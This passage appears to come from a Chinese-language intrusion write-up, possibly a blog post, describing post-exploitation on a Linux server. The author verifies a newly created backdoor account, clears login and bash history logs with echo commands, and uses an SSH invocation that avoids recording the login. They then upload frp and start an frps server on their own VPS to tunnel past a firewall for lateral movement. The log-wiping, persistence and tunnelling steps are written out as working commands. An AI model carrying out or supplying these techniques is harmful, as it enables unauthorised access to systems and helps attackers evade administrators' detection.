 Cat /etc/passwd 查看一下，新建成功。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0z14xyxF30au0AYVrfe0YMjKwb3ibxicAYQ43DyvcyibLkMialLLL1NeazWw/640?wx_fmt=jpeg)

用 db 账号登陆，whoami 查看下权限。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zXErSD7iaicaHAp8KV6ASmO3GTRB7GBX9kicqKZbHibXEzbtQcSGv7a9oicg/640?wx_fmt=png)

对了，忘记看了 w 查看一下当前登陆用户，发现没有其他人在线。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zVMgiciadKnZ2qg0DJRtibNrria0AqibR5h9MmzUCMhX5YqTBZ4735p6XUDg/640?wx_fmt=jpeg)

last 查看登陆记录，发现管理员这几天都有登陆过。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0z6Pk5Ao7FnBax1oOxj2QjHxKzH79C7kHJHicrH2HoNnUfYIXGx3rua3w/640?wx_fmt=jpeg)

清理一波日志先。

```
echo ""> /var/log/wtmp  清空登陆日志

echo ""> /var/log/btmp  清空登陆失败日志

echo ""> ~/.bash\_history 清除history日志
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zWzZZJ4p3XejMF1zA4ok5vgA9meJMAncm073PnIUbuPx6ick9kwJRWKw/640?wx_fmt=jpeg)

突然断开连接。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0z1ESHgYTfqU6jMV38cNzKU8VPd156roTxBh6QPMu4kIMyr2YRMtjthw/640?wx_fmt=jpeg)

隐藏自己的登陆信息连 ssh 上去再看看，发现是管理员上线了，先战术性撤退。

```
ssh -T db@xx.xx.xx.xx /bin/bash -i
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zib2v2YQ3UuQEV7MlyNIuHpXvgvNPPfqAbxBbsAQoPr2o0ibDsiaQicPavg/640?wx_fmt=jpeg)

###### 小心翼翼的横向拓展

账号没有被删，还好，做一下痕迹清理还是很有必要的。0v0 俗话说的好，来都来了，不做点啥，那都对不起管理员对我们的信任，那就先接个代理吧。

正向代理试了一下，端口连接不上，看来是被防火墙给拦了，试试反向连接。用了 ew，不是很稳定，数据传输大一点就会断，还是用 frp 吧，顺便用内置的 stcp 模块加密一下流量。

上传 frp 到控制机：

```
scp C:\\tools\\4.端口代理\\frp\\frp\_0.33.0\_linux\_amd64.tar.gz db@xx.xx.xx.xx:/tmp
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zVgXaD9zls8ibEXlxRPZW1IRuibpIaTnXFEqlefyg590eqwHtyfd5exCg/640?wx_fmt=jpeg)

vps 上配置完服务端 frps.ini 后启用 nohup ./frps -c frps.ini &  

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zs67GibryueGTqZZIxNJicfOMCicohD98FmgERQ4RnCVRAHcdMgezmegGg/640?wx_fmt=jpeg)
